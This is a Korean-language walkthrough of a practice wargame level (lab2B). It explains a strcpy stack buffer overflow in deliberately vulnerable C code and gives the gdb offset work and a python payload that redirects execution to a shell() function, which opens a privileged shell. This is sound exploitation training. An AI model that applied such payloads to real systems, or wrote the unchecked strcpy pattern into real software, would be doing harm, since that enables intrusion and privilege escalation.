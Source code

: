 ## 1. 문제 확인
- ID : lab2B
- Target : /level/lab02/lab2B
- flag : /home/lab2A/.pass
```
	lab2B@warzone:/levels/lab02$ ./lab2B
	usage:
	./lab2B string
	lab2B@warzone:/levels/lab02$ ./lab2B g4nzzi
	Hello g4nzzi
	lab2B@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2B.c -o lab2B
 	*/

	char* exec_string = "/bin/sh";

	void shell(char* cmd)
	{
    	system(cmd);
	}

	void print_name(char* input)
	{
    	char buf[15];
        strcpy(buf, input);
        printf("Hello %s\n", buf);
	}

	int main(int argc, char** argv)
	{
        if(argc != 2)
        {
            printf("usage:\n%s string\n", argv[0]);
            return EXIT_FAILURE;
        }

        print_name(argv[1]);

        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 실행 인자값(argv)이 1개일 경우, main()함수에서 print_name(argv[1])함수를 호출함
```c
	int main(int argc, char** argv)
	{
        if(argc != 2)
        {
 		...
        }

        print_name(argv[1]);
    }
```
- print_name()함수에서 strcpy()함수로 실행 인자값(input)을 buf에 복사할 때 overflow 취약점 존재 
```c
	void print_name(char* input)
	{
    	char buf[15];
        strcpy(buf, input);
        ...
	}
```
- buf를 이용해 stack 메모리를 덮어쓰면, print_name()함수를 끝내고 main()함수로 돌아갈 주소를 shell()함수 주소로 변경 가능
```
	[XXXXXXXXXXXXXXX] [SFP] [RET]
               buf              main() <-- shell() 주소로 변경
```
- shell()함수에 exec_string값을 인자값으로 전달하면 "/bin/sh"로 system()함수를 호출하여 쉘 획득
```
	[XXXXXXXXXXXXXXX] [SFP]  [RET]   [argv]
               buf               main() 
                                   ^         ^ 
                                   |         |
                                shell()  exec_string
```

<br/><br/>
## 3. Exploit
- main()함수 리턴주소 위치를 계산해보니 실행 인자값(input)에서 27byte 떨어진 위치에 있음
```
	gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
	Starting program: /levels/lab02/lab2B AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
    ...
	Stopped reason: SIGSEGV
	0x48484847 in ?? ()
```
```
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
                                   ^
                   (27byte)        |
``` 
- 해당 위치에 shell()함수 주소값, 복귀 주소값, exec_string 주소값이 덮어써지도록 하면 됨
  (복귀 주소는 shell() 호출 이후 복귀할 주소를 뜻하므로 임의로 4byte 채워주면 됨)
```
    [XXXXXXXXXXXXXXXXXXXXXXX] [SFP]   [RET]    [RET]   [argv]
           buf + dummy                main() 
            (23byte)         (4byte) (4byte)  (4byte)  (4byte)
                                        |        |        |
                                     shell()  복귀 주소  exec_string
```
- 전역변수인 exec_string 값 "/bin/sh"의 주소는 0x80487d0 이고 shell()함수의 주소는 0x80486bd
```
	gdb-peda$ find "/bin/sh"
	Searching for '/bin/sh' in: None ranges
	Found 3 results, display max 3 items:
	lab2B : 0x80487d0 ("/bin/sh")
	lab2B : 0x80497d0 ("/bin/sh")
	 libc : 0xb7f83a24 ("/bin/sh")
```
```
	gdb-peda$ p shell
	$1 = {<text variable, no debug info>} 0x80486bd <shell>
```
- 실행 인자값으로 아래와 같이 입력하면 강제로 shell()함수 호출 후 쉘이 획득됨
```
	lab2B@warzone:/levels/lab02$ ./lab2B $(python -c 'print "A"*27+"\xbd\x86\x04\x08" + "BBBB" + "\xd0\x87\x04\x08"')
	Hello AAAAAAAAAAAAAAAAAAAAAAAAAAA▒BBBBЇ
	$ id
		uid=1007(lab2B) gid=1008(lab2B) euid=1008(lab2A) groups=1009(lab2A),1001(gameuser),1008(lab2B)
	$
```
